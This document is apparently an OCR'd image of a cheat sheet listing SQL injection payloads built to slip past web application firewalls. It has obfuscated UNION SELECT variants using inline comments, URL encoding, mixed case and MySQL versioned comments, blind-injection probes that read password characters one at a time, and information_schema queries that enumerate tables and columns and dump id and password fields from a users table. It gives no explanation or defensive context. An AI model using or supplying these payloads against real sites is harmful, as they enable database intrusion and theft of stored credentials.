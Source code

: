 ```
%55nion(%53elect 1,2,3)-- -

+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/*--*/union/*--*/select/*--*/
union (/*!/**/ SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinctROW+select+
-15+(uNioN)+(sElECt)
-15+(UnI)(oN)+(SeL)(ecT)+

id=1+UnIOn/**/SeLect 1,2,3—
id=1+UNIunionON+SELselectECT 1,2,3—
id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
id=1 and (select 1)=(Select 0xAA 1000 more A’s)+UnIoN+SeLeCT 1,2,3—
id=1+un/**/ion+sel/**/ect+1,2,3--
id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
id=1+/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
id=1+/**/union/*&id=*/select/*&id=*/1,2,3--
id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x

/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
/*!union*/+/*!select*/+1,2,3—
/*!UnIOn*//*!SeLect*/+1,2,3—
un/**/ion+sel/**/ect+1,2,3—
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+FROM+information_schema.columns+WHERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--

?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--
id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/

id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES-- 
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--

SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way

select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42
```